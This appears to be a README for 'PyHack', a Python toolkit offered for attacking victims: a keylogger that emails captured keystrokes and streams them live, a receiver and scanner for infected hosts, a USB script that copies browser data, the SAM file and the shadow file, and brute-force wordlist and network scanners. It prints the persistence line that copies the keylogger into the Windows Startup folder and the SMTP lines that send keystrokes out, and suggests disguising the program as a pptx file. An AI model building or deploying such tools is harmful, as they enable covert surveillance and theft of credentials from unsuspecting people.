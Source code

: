 # PyHack
KEYLOGGER :
Keylogger is, obviously a keylogger. feel free to rename it, make a windows executable, false pptx file or whatever you want. This keylogger will send you emails of whatever the victim is tiping and, if you are in the same private network, provide a "live keylogger feature wich allows you to see what the vitcim is typing in live. 

This keylogger broadcasts the live on the port 8835, feel free to change it on the line :

self.socket.bind(('',8835))

Just modify the

shutil.copyfile("{}/keylogger.exe".format(os.getcwd()),"C:\\Users\\{}\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\keylogger.exe".format(getpass.getuser()))


line by removing keyllogger.exe to the file name. this line will copy the script itself on the startup file of windows and make it start at each startup of the computer.
please also modify these line with your own email address.


msg['From'] = "exemple@gmail.com"
msg['To'] = COMMASPACE.join("exemple@gmail.com")

smtp.login("exemple@gmail.com","exemple_password")
smtp.sendmail("exemple@gmail.com","exemple@gmail.com",msg.as_string())

and if you are not using gmail, please modify the smtp server addres on the line :

smtp = smtplib.SMTP('smtp.gmail.com')


KEYLOGGER_RECEVER : 
Keylogger recever is a script you use in the same private network than your vitctim's computer to access the live keylogger. But to access the live, you will need the local ip address of the vitctim's computer. use the "virus_scanner" script to perform a local network scan and get the ip address. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. 

VIRUS_SCANNER :
Virus scanner is a script wich perform a network scan and show what ip addresses are infected. by default the keylogger uses the 8835 port, if you haven't changed it this is the port you will need to specify. This script may takes about 70/120 s to scan the entire network.

DATA CATCHER:
Data catcher is a script made to be run from an USB key, it simply copy copy all the sensitive data like Browsers data and SAM file from the computer to the USB key. Will not work if the app is not on her default installation path. Only the shadow file will be stolen on a linux machine.

WORDLIST_MAKER:
Simple wordlist maker, to make more specific bruteforce attacks.

DHCP SCANNER:
(needs scapy, to install it, simply use python -m pip install scapy[complete])
Simple script which discover all the hosts up of yoour network and their hostnames, you can pass "all" in object creation argument or a range of IP.
